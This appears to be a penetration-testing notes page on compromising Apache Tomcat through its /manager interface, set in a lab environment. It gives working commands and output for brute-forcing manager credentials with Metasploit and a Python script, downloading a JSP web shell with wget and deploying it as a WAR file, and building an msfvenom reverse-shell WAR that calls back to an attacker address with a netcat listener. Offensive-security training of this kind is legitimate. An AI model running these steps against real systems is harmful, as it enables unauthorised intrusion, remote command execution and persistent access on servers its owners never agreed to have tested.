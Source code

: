 ```yaml
---
icon: cat
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Tomcat

If we can access the `/manager` or `/host-manager` endpoints, we can likely achieve remote code execution on the Tomcat server. We can use the [auxiliary/scanner/http/tomcat\_mgr\_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_mgr_login/) [metasploit](../../../../toolbox/tooling/exploitation-tools/metasploit/ "mention") module for these purposes, Burp Suite Intruder or any number of scripts to achieve this.

## Login Brute Force

### Metasploit - tomcat\_mgr\_login

We must specify the vhost and the target's IP address to interact with the target properly. We should also set `STOP_ON_SUCCESS` to `true` so the scanner stops when we get a successful login, no use in generating loads of additional requests after a successful login.

```bash
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set VHOST web01.inlanefreight.local
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8180
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 10.129.201.58
```

```
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run

<snip>
[-] 10.129.201.58:8180 - LOGIN FAILED: root:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:vagrant (Incorrect)
[+] 10.129.201.58:8180 - Login Successful: tomcat:admin
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Python Script: Tomcat-Manager-Bruteforce

{% hint style="info" %}
## Script Download:

[https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce](https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce)
{% endhint %}

```bash
python3 mgr_brute.py -U http://tomcat.acme.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
```

```
[+] Atacking.....

[+] Success!!
[+] Username : b'tomcat'
[+] Password : b'admin'
```

## WAR File Upload

Many Tomcat installations provide a GUI interface to manage the application. This interface is available at `/manager/html` by default, which only users assigned the `manager-gui` role are allowed to access. Valid manager credentials can be used to upload a packaged Tomcat application (.WAR file) and compromise the application.

A WAR, or Web Application Archive, is used to quickly deploy web applications and backup storage. The manager web app allows us to instantly deploy new applications by uploading WAR files. A WAR file can be created using the zip utility.

A JSP web shell such as [this](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp) can be downloaded and placed within the archive.

{% code title="Download Web Shell" %}
```bash
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
```
{% endcode %}

{% code title="Archive" %}
```bash
zip -r backup.war cmd.jsp 
```
{% endcode %}

Click on `Browse` to select the .war file and then click on `Deploy`.

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

This file is uploaded to the manager GUI, after which the `/backup` application will be added to the table.

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

If we click on `backup`, we will get redirected to `http://web01.acme.com:8180/backup/` and get a `404 Not Found` error. We need to specify the `cmd.jsp` file in the URL as well. Browsing to `http://web01.acme.com:8180/backup/cmd.jsp` will present us with a web shell that we can use to run commands on the Tomcat server.

From here, we could upgrade our web shell to an interactive reverse shell and continue.

```bash
curl http://web01.acme.com:8180/backup/cmd.jsp?cmd=id
```

{% hint style="info" %}
## Clean Up & Note Taking

To clean up after ourselves, we can go back to the main Tomcat Manager page and click the `Undeploy` button next to the `backups` application after, of course, noting down the file and upload location for our report, which in our example is `/opt/tomcat/apache-tomcat-10.0.10/webapps`.

If we do an `ls` on that directory from our web shell, we'll see the uploaded `backup.war` file and the `backup` directory containing the `cmd.jsp` script and `META-INF` created after the application deploys. Clicking on `Undeploy` will typically remove the uploaded WAR archive and the directory associated with the application.
{% endhint %}

## Creating WAR Files

### MSFVenom

We could also use [msfvenom.md](../../../../toolbox/tooling/exploitation-tools/metasploit/msfvenom.md "mention") to generate a malicious WAR file. The payload [java/jsp\_shell\_reverse\_tcp](https://github.com/iagox86/metasploit-framework-webexec/blob/master/modules/payloads/singles/java/jsp_shell_reverse_tcp.rb) will execute a reverse shell through a JSP file. Browse to the Tomcat console and deploy this file. Tomcat automatically extracts the WAR file contents and deploys it.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war
```

Start a Netcat listener and click on `/backup` to execute the shell.

```bash
nc -lnvp 4443
```

{% hint style="success" %}
## Utilising Metasploit

The [multi/http/tomcat\_mgr\_upload](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload/) [metasploit](../../../../toolbox/tooling/exploitation-tools/metasploit/ "mention") module can be used to automate this process.
{% endhint %}

{% hint style="danger" %}
## Web Shell Warning

When we upload web shells (especially on externals), we want to prevent unauthorised access. We should take certain measures such as a randomised file name (i.e., MD5 hash), limiting access to our source IP address, and even password protecting it. We don't want an attacker to come across our web shell and leverage it to gain their own foothold.
{% endhint %}

